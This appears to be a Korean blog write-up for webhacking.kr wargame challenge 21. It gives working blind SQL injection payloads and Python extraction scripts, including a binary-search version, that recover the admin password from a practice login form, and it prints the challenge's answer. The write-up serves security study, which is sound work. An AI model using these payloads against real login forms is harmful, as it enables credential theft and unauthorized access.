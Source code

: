 ```yaml
---
title: "[webhacking.kr] 21번 문제 풀이[Blind SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
  - sql
toc: true
toc_sticky: true
toc_label: "21번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 21번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/150917552-08962536-c588-488d-a29a-040408cf0151.png)
   
## 문제 풀이
   guest / guest 를 입력하면 다음화면과 같이 **login success** 문구가 나옵니다.
   
   ![image](https://user-images.githubusercontent.com/33647663/150917693-b7898772-6d5d-420d-b63c-337992a0b9e1.png)

   guest / 1234를 입력하면 다음과 같이 **login fail** 문구가 나옵니다. 

   ![image](https://user-images.githubusercontent.com/33647663/150917778-0d17494c-c240-456f-bb8c-ddef2505928c.png)

   blind sql injection을 수행하기 위해 비밀번호 입력하는 부분에 참 / 거짓을 판단할 수 있는 쿼리문을 작성해 봅니다.
   
   서버쪽 DB에 들어가는 쿼리가 다음과 같이 작성되어 있을것이라 가정하고, $pw부분에 다음 쿼리문들을 입력해 봅니다.

   ```sql
   select * from chall21 where id='$id' and pw='$pw';
   ```

   
   > ```' or 1=1 -- ``` : True화면
   > 
   > ![image](https://user-images.githubusercontent.com/33647663/150918138-db079501-c570-473b-8b5d-832b4644fc53.png)

   > ```' or 1=2 -- ``` : False화면
   > 
   > ![image](https://user-images.githubusercontent.com/33647663/150918178-0e86c772-ec21-4fa6-a8a9-679f22ecce8f.png)

   결과를 보고 추론을 해보자면, sql 문의 결과로 부터 DB에서 id,pw를 불러오고 php에서 한번더 검증을 하는 과정이 있는 것 같습니다.
   
    DB에서 아무것도 반환되지 않으면 -> login fail
    
    DB에서 반환이 되었지만 php 코드에서 한번더 검증할때 값이 틀리면 -> wrong password 로 출력이 되는 것 같습니다.

    중요한건 1=1 부분과 1=2 부분에서 참 거짓을 판단할 수 있는 지점을 찾았기 때문에 저곳을 이용해서 Blind sql injection을 수행하겠습니다.


## Blind sql injection
  우선 DB명 / table명 / 컬럼명 아무것도 알고 있는 것이 없으므로 차례대로 구해보겠습니다. 작업은 Python 코드로 했습니다. 
   
  **DB이름 구하기**
  
  ```python
  database_length = 10
  database_name = ''
  for i in range(1,database_length + 1):
      for j in range(127,32,-1):
          payload = "' or ascii(substr(database(),{},1)) = {} -- ".format(i,j)
          params['pw'] = payload
          response = requests.get(url,params=params)
          if(TRUE_FLAG in response.text):
              database_name += chr(j)
              print('database_name = ' + database_name)
              break
  print("database_name =" + database_name)
  ```

  코드 실행결과 DB이름은 'webhacking'이었습니다.
  그다음은 information_schema 를 이용해서 table명을 알아내려고 했는데, select문이 필터링 되어 있었습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150922131-df6af47f-30b7-49b5-b050-175b1e043b87.png)

  그래서 원래는 다음과 같이 페이로드를 구성하고 injection을 수행하려고 했는데 이 방법은 안될것 같습니다.

  ```python
  for i in range(20):
    for j in range(32,127):
        payload = "' or (select ascii(substr(table_name,{},1)) from information_schema.tables where table_schema='webhacking') = {} -- ".format(i,j)
  ```

  여러가지 삽집을 좀 해본결과 column명을 한번 추측해서 해봤습니다. id 값을 저장하는 컬럼명을 'id', pw 값을 저장하는 컬럼명을 'pw'로 가정하고 blind sql injection을 수행하니 풀렸습니다. 이때 사용한 코드는 다음과 같습니다.

  ```python
  def get_password_length():
    for i in range(1,100):
        payload = "' or length(pw) = {} and id='admin' -- ".format(str(i))
        params['pw'] = payload
        response = requests.get(url,params=params)
        
        if('wrong password' in response.text):
            print("find password length")
            return i
  ```

  추가로 저의 payload를 보면 ```or length(pw) = {} and id='admin' -- ``` 으로 id='admin'인 조건을 걸어줬습니다. 해당 조건을 안걸어 주면 id='guest'인 경우의 비밀번호도 같이 조건을 만족하게 되기 때문입니다. 

  위의 코드로 실행해본 결과 컬럼에 있는 데이터의 길이는 36자리 였습니다.

  그 다음은 비밀번호를 알아내는 코드입니다. 일반적으로는 for문 반복 부분에서 ascii코드 값을 1씩 증가시켜서 단순 비교를 하지만, 저는 binary search 알고리즘을 사용해서 성능을 훨씬 올렸습니다.

  예를들어 
  ```python
  for i in range(32,127):
    payload = ' or ascii(substr(pw,1,1)) = {}-- '.format(i)
  ```
  이렇게 작성하면 만약 비밀번호의 첫번째 값이 z라면 아스키 코드값이 122라서 무려 90번의 시도를 하고나서야 첫번째 글자를 찾을 수 있습니다.

  하지만 binary search 알고리즘을 사용하면 저는 최대 8번 안에 무조건 값을 찾아낼 수 있기 때문에 성능 차이가 많이 납니다. 

  본 문제에서는 찾아야하는 비밀번호가 무려 36자리이기 때문에 보다 확실한 성능 차이가 났습니다.

  단순 반복문은 쿼리를 3420번 을 수행했고, binary search 알고리즘은 쿼리를 210번 수행해서 결과를 도출해 냈습니다.**평균적으로 단순 반복문은 하나의 글자를 찾기 위해서 95번의 쿼리를, binary search는 6번의 쿼리를 수행했습니다.** 
  
  단순 반복문 결과 : ![image](https://user-images.githubusercontent.com/33647663/150933253-e02e01b9-3d81-4657-bbdc-afc880197afb.png)

  binary Search 결과 : ![image](https://user-images.githubusercontent.com/33647663/150928020-6fae8811-fdf9-413e-8dc3-9ab978a57d93.png)


  최종 비밀번호 : **there_is_no_rest_for_the_white_angel**

  사용한 코드는 다음과 같습니다

  <script src="https://gist.github.com/kangmyoungseok/f039f0e0b1b832aa98f7aa7b255b4589.js"></script>
